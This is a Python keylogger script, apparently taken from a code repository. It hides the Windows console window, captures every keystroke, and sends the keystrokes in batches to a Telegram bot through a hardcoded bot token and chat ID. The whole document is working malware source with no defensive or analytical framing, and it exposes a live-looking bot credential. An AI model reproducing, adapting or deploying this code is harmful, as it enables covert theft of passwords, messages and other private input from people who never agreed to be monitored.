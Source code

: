 codtech
import requests
import keyboard
import ctypes
import os

# Hide the console window (only on Windows)
def hide_console():
    if os.name == 'nt':
        ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)

# Hide the console window at the start
hide_console()

print("start")

# Your Telegram bot token
token = "7407307145:AAFeUdlLZbdFnWl7WMYmbasRCFebidRqXjg"
url = f"https://api.telegram.org/bot{token}/sendMessage"

# Chat ID to send the messages to
chat_id = "1453451211"

data = ""
while True:
    a = keyboard.read_key()
    data += f"{a} "
    if len(data) > 20:
        print(data)
        pram = {"chat_id": chat_id, "text": data}
        print(url, pram)
        res = requests.post(url, data=pram)
        if res.status_code == 200:
            print("Message sent successfully!")
        else:
            print("Failed to send message.")
            print(f"Status Code: {res.status_code}")
            print(f"Response: {res.json()}")
        data = ""
        print(data)
